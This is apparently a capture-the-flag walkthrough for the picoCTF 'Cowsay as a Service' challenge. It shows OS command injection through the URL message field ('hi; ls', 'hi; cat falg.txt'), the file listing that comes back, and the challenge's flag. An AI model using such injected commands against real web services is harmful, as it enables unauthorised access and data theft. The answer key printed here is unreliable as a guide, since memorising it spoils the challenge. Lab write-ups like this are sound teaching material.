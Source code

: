 # Play Nice

## Problem
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Solution

1. Go to the website [cowsay as a service](https://caas.mars.picoctf.net/)
2. The follwing text would be visible on the website.
```Cowsay as a Service
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message} 
```
3. Go to the website, and write your message in the curly paranthesis.
4. Notice whatever message you type in { } , the same message is printed on the webpage.
5. You can do injection on this, try typing `https://caas.mars.picoctf.net/cowsay/hi; ls`
6. The above website should give the list of files...
```
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
7. Go to page `https://caas.mars.picoctf.net/cowsay/hi; cat falg.txt`
8. The flag is now visible on the screen
## Flag

`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`